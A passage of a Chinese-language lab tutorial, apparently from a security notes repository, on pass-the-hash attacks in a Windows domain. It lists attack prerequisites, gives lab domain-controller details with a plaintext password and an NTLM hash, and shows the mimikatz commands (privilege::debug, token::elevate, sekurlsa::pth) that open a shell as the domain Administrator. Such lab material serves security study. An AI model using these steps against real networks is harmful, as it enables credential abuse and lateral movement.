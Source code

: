 ### 利用

利用条件：

> 1.被pth攻击的计算机未打补丁(KB2871997)
>
> 2.拿到一台域成员主机并且拿到管理员组的域用户的NTML
>
> 3.对方主机存在相同账号并且是管理员组成员

这里以域环境下使用`Mimikatz`工具对IPC连接验证进行绕过

DC：

`name：SERVER2016DC`

`ip：192.168.5.1`

`domain：Y5NEKOAD`

`user：Administrator`

`password：y5neko@dc123`

假设我们已经拿到域内主机权限和hash值，并且密码与DC相同的情况下，即：

`NTLM Hash：85dafeeae5eacd3be1e561eea0a064ca`

![image-20210916152943898](image/image-20210916152943898.png)

使用mimikatz工具的pth功能

```sh
privilege::debug	#提升权限
token::elevate
sekurlsa::pth /user:Administrator /domain:Y5NEKOAD /ntlm:85dafeeae5eacd3be1e561eea0a064ca
```

成功传递后会弹出一个cmd窗口，我们可以使用这个hash值登录域内的其他同等hash的账户
